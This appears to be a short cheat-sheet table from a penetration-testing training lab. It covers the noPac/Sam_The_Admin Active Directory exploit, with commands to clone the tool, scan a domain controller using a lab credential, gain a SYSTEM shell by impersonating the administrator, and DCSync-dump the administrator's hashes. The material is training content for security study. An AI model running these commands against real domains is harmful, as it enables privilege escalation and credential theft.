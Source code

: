 # NoPac

***

| Command                                                                                                                                                                                       | Description                                                                                                                                                                        |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `sudo git clone https://github.com/Ridter/noPac.git`                                                                                                                                          | Used to clone a `noPac` exploit using git. Performed from a Linux-based host.                                                                                                      |
| `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap`                                                                                                    | Runs `scanner.py` to check if a target system is vulnerable to `noPac`/`Sam_The_Admin` from a Linux-based host.                                                                    |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap`                                          | Used to exploit the `noPac`/`Sam_The_Admin` vulnerability and gain a SYSTEM shell (`-shell`). Performed from a Linux-based host.                                                   |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator` | Used to exploit the `noPac`/`Sam_The_Admin` vulnerability and perform a `DCSync` attack against the built-in Administrator account on a Domain Controller from a Linux-based host. |
